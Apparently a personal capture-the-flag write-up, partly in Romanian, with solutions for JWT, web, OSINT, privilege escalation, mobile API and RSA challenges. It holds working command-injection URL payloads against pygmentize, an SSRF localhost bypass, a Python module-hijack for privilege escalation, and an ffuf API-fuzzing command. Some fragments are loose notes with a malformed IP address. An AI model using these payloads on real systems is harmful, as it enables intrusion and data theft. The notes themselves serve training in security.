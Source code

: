 ## JSON Web Tokens Challenge

{"user":"admin", "is_admin":"tt"}
 Am observat ca url encoding-ul nu are voie sa aiba == la final, deci trebuie sa mai completam cu spatii din cand in cand.


{"alg":"HS256","typ":"JWT"}
{"user":"admin", "is_admin":"tt", "flag":"t",  "pin":"0770"}


43 54 46 7B 74 68 31 73

['3c','7','2a','2a','20','26','78','3','5a','1a','68','0','27','0a','64','0f','4b','14','5f','0a','64','0f','55','0a','55','15','55','20','34','1','2a','2a','35','2a','21','20','21','23','21','23','64','19']


ctf{g3t-3xiftool-to-f1ni$h-th3-ch4l1}


# WEB
## pygmentize

- When working with websites where you can gain RCE through the error messages, if nothing shows up, try `BASE64 ENCODING` your \`cat flag.txt\`; also use `` to get the output of a SHELL command

If the flag is cut off, then you can use `base64 -w0 `

- `DID YOU KNOW?` By default, base64 command line utility inserts a LINE BREAK after every 76 characters in the output to conform to MIME specifications for line length limitations. USE `-w0` to disable this feature


- SO for the pygmentize challenge we can use the test command: /?a=1&b=2;ls

- We can see the output is saying the ls command was not recognised. So ls is trying to be executed

- NOW, if we do: /?a=1&b=;`ls` -> sh: 1 composer.json:not found -> we executed the command but it only displays the first command(space delimited)
WORKAROUNDS: || base64 encode it || OR  || concatenate it with  ;`ls|tr '\n' '-'` ||

### Possible solutions :

- `SOL1`     /?a=1&b=;\`cat flag.php | base64 -w0\` -> and then base64 -d the flag
- `SOL2`     /?a=1;b=;\`cat flag.php|tr '\n' '-'|tr ' ' '-'`
- `SOL3`     /?a=<?php phpinfo();&b=;cat flag.php #      BE CAREFUL AT THE URL ENCODING, some chars might mess up the payload

Which gives this output: <?php--$flag_4f3qdw-=-"ctf{2ae4644b1e4cbc1f560c52f3ee0985043d3e0acf0f766851382974646578ec39}";--?>


- `If you find the Github repo for a tool like pygmentize, the first place to look is GITHUB ISSUES!!!`

-  here you can find a `REMOTE CODE EXECUTION issue with` the exact payload to solve the problem
-  /?a=%3C?php%20phpinfo();&b=;cat%20flag.php%20%23 
 
>	ex: $highlight = Pygmentize::highlight('<?php phpinfo();', ';uname -a #');
print_r($highlight);
https://github.com/dedalozzo/pygmentize/issues/1

## sided-curl

- We see that the request: http://google.com/test
-> returns an error with the path test.png not found on the system

- We see a potential `SSRF attack`
- SSRF = Server-side Request Forgery is when an attacker manipulates a server-side application into making HTTP requests to a domain of their choice(even internal domains).

- The idea is to access local domains, like localhost

- So we try to access 127.0.0.1:8000 because that is where the admin panel should be hosted. But we get incvalid URL. So we use the trick 'http://USERNAME.PASSWORD@DOMAIN.COM' that is used for BASIC AUTHENTICATION to a website within the url. We can call 'http://google.com@127.0.0.1:8000' - this will access localhost on port 8000 with the username google and password com, but since there is no authentication implemented/needed it will get ignored.

- Then we explore there, we see /admin asks for a userrname and password, we provide as default admin:admin -> And we see that THE URL IS TOO LONG.

- Looking for SSRF online payloads for localhost, we stumble upon this: `127.0.0.1:80 == 0:80`
- And this will give us the flag

# OSINT
## persistent-recon

- This challenge welcomes us with a login page. 

- To find the default credentials we have to find out what this website is default for online. Like what service usually looks like this.

- We use `GOOGLE LENS` for this, we insert a screenshot of our website and we get an exact match on this domain -> docs.westermo.com/
- So we seach westermo default username and password and we get: [admin:westermo]
- This gives us the flag.

# PRIVESC
## PRIVILEGE-NOT-INCLUDED

- This challenge showed a 'include.py' file that was in the /home/helpdesk folder to which we had access to.
- This file is owned by admin, and we can see when running ps a process that does 'sleep 60', hinting to a timed process that is running once every minute as admin.

- This include.py can be inspected, we can see it import some file like: 'import include_php', and upon running the script it cannot find that module. BUT WE CAN CREATE ONE.

- We will write a script in python: include_php.py that will write the flag into the /tmp folder to which we have access to.

# MOBILE CHALLENGES

Use `https://appetize.io/upload` to run in an emulated environment the apk

## flagen

- For this we see that we have to connect to a network address, we are given one by the challenge, so probably some requests are gonna happen. We can start the 'Network traffic analyzer' from the appetize.io website, and we can capture some get requests to an api endpoint. Since the api endpoint may have other endpoints also, we scan the path: 2818.82.92.1111:8000/FUZZ, where we replace fuzz with some API PAYLOADS.

- We can also checkout the API requests from BurpSuite if we add the correct API KEY in the GET Header.

- For this attack I used the tool `ffuf (Fuzz Faster U FOOL)` like this: 

		ffuf -c -t 100 -u http://34.89.210.219:30870/FUZZ -w /usr/share/wordlists/api-endpoints.txt -H "X-API-KEY: FBA34-E4Q4D3-E5C8XB1-DDA9A-26ED76"

-  this will reveal a /swagger endpoint
- here we can see Active API HTTP schemes with 2 paths: one for /api/v1/getdata and the other one for /api/v1/getfl. 
- By accessing the second path with the API KEY, we will get the flag!!!

Check out more on API hacking.

# Network Analysis
## traffic - e

- This challenge has an encrypted message over TLSv1.2 which uses RSA encryption algorithm. To solve this challenge, we need to decrypt the RSA private key by using a tool like RsaCtfTool. -> then decrypt the trafic to get the flag.

Let's revise a little bit the technical part: PUBLIC KEY CRYPTOGRAPHY
- In public key cryptography, each participant has a PAIR OF KEYS, a PUBLIC key and a PRIVATE key
	PUBLIC KEY: used for encryption
	PRIVATE KEY: used for decryption
	A public key corresponds to ONE PRIVATE KEY.
	
- The RSA encryption algorithm: 
	- choose p an q distinct large prime numbers.
	- MODULUS : n = p*q, n is used as the modulus for both the public and private keys
	- EULER's TOTIENT : theta(n) = (p-1)*(q-1) , where theta is called Euler's totient function.
	- PUBLIC EXPONENT : Choose an integer e such that 1 < e < theta(n); e is coprime with theta(n)
	- PRIVATE EXPONENT : d = e^(-1) mod theta(n) -> the modular inverse of the public exponent modulus the totient -> can be computed using Euler's Extended Algorithm.
	
- THE PUBLIC KEY IS : (e, n)
- The private KEY is : (d, n)

- To encrypt a message : C = M^e mod n
- To decrypt a message : M = C^d mod n

RSA's security relies on the mathematical difficulty of factoring large composite numbers into their prime factors. 

In this challenge, Wiener's attack was used because the PRIVATE EXPONENT D is significantly smaller than the modulus N.












